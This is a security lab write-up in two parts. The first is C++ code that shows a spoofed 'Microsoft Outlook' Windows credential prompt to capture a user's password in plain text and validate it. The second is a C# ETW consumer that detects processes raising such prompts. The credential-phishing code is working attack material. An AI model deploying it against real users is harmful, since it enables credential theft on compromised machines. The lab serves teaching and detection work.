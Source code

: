 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	CREDUI_INFO ci = { sizeof(ci) };
	std::wstring promptCaption = L"Microsoft Outlook";
	std::wstring promptMessage = L"Connecting to spotless@offense.local";
	ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
	ci.pszMessageText = (PCWSTR)promptMessage.c_str();

	WCHAR username[255] = {};
	WCHAR password[255] = {};
	DWORD result = 0;

	result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
	if (result == ERROR_SUCCESS)
	{
		HANDLE newToken = NULL;
		BOOL credentialsValid = FALSE;

		credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
		if (credentialsValid)
		{
			// valid credentials provided
		}
		else
		{
			// invalid credentials provided
		}
	}
	else if (result == ERROR_CANCELLED)
	{
		// no credentials provided
	}

	return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using  [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](../../.gitbook/assets/image%20%28629%29.png)

{% hint style="info" %}
The above credential prompt can also be invoked with  PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows \(EWT\)](../../miscellaneous-reversing-forensics/windows-linux-os-internals/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](../../.gitbook/assets/image%20%28680%29.png)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](../../.gitbook/assets/image%20%28697%29.png)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C\# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" %}

